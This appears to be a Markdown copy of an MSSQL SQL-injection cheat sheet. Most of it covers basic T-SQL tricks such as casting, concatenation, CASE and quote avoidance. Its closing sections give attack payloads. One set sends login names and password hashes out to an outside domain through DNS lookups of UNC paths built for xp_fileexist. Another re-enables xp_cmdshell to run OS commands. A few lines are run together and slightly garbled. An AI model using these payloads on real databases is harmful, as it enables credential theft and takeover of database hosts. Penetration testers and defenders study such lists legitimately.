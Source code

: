 ### Bitwise AND:
```bash
SELECT 6 & 2 - returns 2
SELECT 6 & 1 - returns 0
```
#### ASCII Value -> Char:
```bash
SELECT char(0x41) - returns A
```
### Char -> ASCII Value:
```bash
SELECT ascii('A') – returns 65
```
### Casting:
```bash
SELECT CAST('1' as int);
SELECT CAST(1 as char)
```
### String Concatenation:
```bash
SELECT 'A' + 'B' – returns AB
```
### If Statement:
```bash
IF (1=1) SELECT 1 ELSE SELECT 2 - returns 1
```
### Case Statement:
```bash
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END - returns 1
```
### Avoiding Quotes:
```bash
SELECT char(65)+char(66) - returns AB
```

### Make DNS Requests:
- priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary.
- Also check out theDNS tunnel feature of sqlninja http://sqlninja.sourceforge.net/sqlninja-howto.html
```bash
declare @host varchar(800); select @host = name FROM master..syslogins; exec('master..xp_getfiledetails "\' + @host + 'c$boot.ini"'); - nonpriv, works on 2000declare @host varchar(800); select @host = name + '-' + master.sys.fn_varbintohexstr(password_hash) + '.2.pentestmonkey.net' from sys.sql_logins; exec('xp_fileexist "\' + @host + 'c$boot.ini"'); 
```


### Command Execution:
```bash
EXEC xp_cmdshell 'net user'; - privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
EXEC sp_configure 'show advanced options', 1; - priv
RECONFIGURE; - priv
EXEC sp_configure 'xp_cmdshell', 1; - priv
RECONFIGURE; - priv
```
